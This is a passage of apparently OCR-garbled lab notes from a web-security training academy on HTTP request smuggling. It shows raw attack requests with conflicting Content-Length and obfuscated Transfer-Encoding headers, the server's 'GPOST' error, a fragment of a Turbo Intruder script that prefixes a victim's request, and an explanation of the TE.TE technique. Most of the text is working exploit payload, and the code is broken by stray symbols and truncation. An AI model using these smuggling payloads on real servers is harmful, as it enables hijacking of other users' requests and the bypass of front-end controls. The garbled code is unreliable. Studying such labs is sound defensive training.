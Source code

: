 >`Content-Type: application/x-www-form-urlencoded
>`Content-Length: 15
>
>`x=1
>`0
POST / HTTP/1.1
Host: ac251f861ffc8725c06a343700b9003d.web-security-academy.net
Cookie: session=TmGWbnPLPMbUr4iwIZob57sBH4i2kuMK
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
tRANSFER-ENCODING: chunked

3
x=y
0

---
##### Response: 

HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 27

"Unrecognized method GPOST"

---
##### Turbo Intruder code:

>`import re
>
`def queueRequests(target, wordlists):
  `  engine = RequestEngine(endpoint=target.endpoint,
>`...`
>  
    # This will prefix the victim's request. Edit it to achieve the desired effect.
    `prefix = '''GPOST / HTTP/1.1
`Content-Type: application/x-www-form-urlencoded
`Content-Length: 15
>
`x=1'''
>

---

##### TE.TE behavior: obfuscating the TE header

Here, the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.
